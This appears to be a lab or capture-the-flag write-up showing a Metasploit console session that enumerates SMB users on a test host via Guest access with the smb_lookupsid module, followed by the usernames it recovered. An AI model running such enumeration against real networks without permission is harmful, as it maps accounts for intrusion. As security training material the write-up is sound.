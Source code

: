 We used the Metasploit auxiliary module `scanner/smb/smb_lookupsid` to enumerate users on the target SMB server. The module allows resolving SIDs to account names, leveraging a feature of SMB that does not require full authentication :

**Steps taken :**

```msfconsole
msf6 > search lookupsid

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank    Check  Description
   -  ----                                                   ---------------  ----    -----  -----------
   0  auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli  .                normal  No     Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
   1  auxiliary/admin/mssql/mssql_enum_domain_accounts       .                normal  No     Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
   2  auxiliary/scanner/smb/smb_lookupsid                    .                normal  No     SMB SID User Enumeration (LookupSid)
   3    \_ action: DOMAIN                                    .                .       .      Enumerate domain accounts
   4    \_ action: LOCAL                                     .                .       .      Enumerate local accounts


Interact with a module by name or index. For example info 4, use 4 or use auxiliary/scanner/smb/smb_lookupsid
After interacting with a module you can manually set a ACTION with set ACTION 'LOCAL'

msf6 > use 2
[*] Using action LOCAL - view all 2 actions with the show actions command
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 auxiliary(scanner/smb/smb_lookupsid) >
msf6 auxiliary(scanner/smb/smb_lookupsid) > set RHOST 10.10.213.214
RHOST => 10.10.213.214
msf6 auxiliary(scanner/smb/smb_lookupsid) > set SMBUser Guest
SMBUser => Guest
msf6 auxiliary(scanner/smb/smb_lookupsid) > set MinRID 1000
MinRID => 1000
msf6 auxiliary(scanner/smb/smb_lookupsid) > set MaxRID 2000
MaxRID => 2000
msf6 auxiliary(scanner/smb/smb_lookupsid) > run
```

**Results :**

```
    Type   Name            RID
    ----   ----            ---
    User   DC01$           1000
    Alias  DnsAdmins       1101
    Group  DnsUpdateProxy  1102
    User   bmark0          1103
    User   otara1          1104
    User   kleo2           1105
    User   eyara3          1106
    User   pquinn4         1107
    User   jharper5        1108
    User   bxenia6         1109
    User   gmona7          1110
    User   oaaron8         1111
    User   pleo9           1112
    User   evictor10       1113
```